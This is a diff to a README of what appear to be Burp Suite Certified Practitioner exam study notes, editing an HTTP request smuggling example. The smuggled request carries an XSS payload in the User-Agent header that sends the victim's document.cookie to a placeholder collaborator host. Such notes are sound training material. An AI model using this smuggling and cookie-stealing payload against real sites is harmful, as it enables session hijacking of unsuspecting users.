

Burp Suite Certified Practitioner
BSCP

diff --git a/README.md b/README.md
@@ -503,9 +503,9 @@ Content-length: 4
 Transfer-Encoding: chunked
 Transfer-encoding: identity
 
-5c
+e6
 GET /post?postId=4 HTTP/1.1
-User-Agent: a"/><script>document.location='http://COLLABORATOR.oastify.com/?Hack='+document.cookie;</script>
+User-Agent: a"/><script>document.location='http://COLLAB.com/?c='+document.cookie;</script>
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 15
 
